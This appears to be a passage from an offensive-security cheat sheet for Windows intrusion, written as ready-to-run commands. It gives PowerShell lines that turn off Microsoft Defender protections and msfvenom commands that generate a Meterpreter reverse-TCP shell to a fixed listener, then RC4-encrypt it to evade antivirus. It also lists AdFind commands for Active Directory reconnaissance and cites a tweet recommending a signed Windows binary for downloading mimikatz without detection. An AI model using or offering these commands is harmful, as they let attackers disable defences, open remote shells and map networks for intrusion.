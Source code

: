 
#### Disable Defender 

```powershell
Shell comand to disable Defender 

shell Set-MpPreference -DisableRealtimeMonitoring $true 
shell Set-MpPreference -EnableRealtimeMonitoring $true
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableScanningNetworkFiles $true
Set-MpPreference -MAPSReporting 0
Set-MpPreference -DisableCatchupFullScan $True
Set-MpPreference -DisableCatchupQuickScan $True
```

#### Encrypted Msfvenom shellcode

```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin
cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin
xxd -i encmeter.bin
	
Default MessageBox
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Proxy Loading worked!" -f raw > shellcode.bin
```

#### AdFind Enumerations

```powershell
C:\Windows\system32\cmd.exe /C adfind.exe -gcb -sc trustdmp > trustdmp.txt
C:\Windows\system32\cmd.exe /C adfind.exe -f "(objectcategory=group)" > ad_group.txt
C:\Windows\system32\cmd.exe /C adfind.exe -subnets -f (objectCategory=subnet)> subnets.txt
C:\Windows\system32\cmd.exe /C adfind.exe -sc trustdmp > trustdmp.txt
C:\Windows\system32\cmd.exe /C adfind.exe -f "(objectcategory=organizationalUnit)" > ad_ous.txt
C:\Windows\system32\cmd.exe /C adfind.exe -f "objectcategory=computer" > ad_computers.txt
C:\Windows\system32\cmd.exe /C adfind.exe -f "(objectcategory=person)" > ad_users.txt
```

## 13) LoLBins Executions

#### Cmdl32.exe

```powershell
Need to go under the radar downloading #mimikatz (and other suspect payloads)? Then newly discovered #lolbin?

"C:\Windows\System32\Cmdl32.exe" (signed by MS) is for you. It's like a new certutil.exe but absolutely unheard of by any antivirus software!

https://twitter.com/ElliotKillick/status/1455897435063074824
```

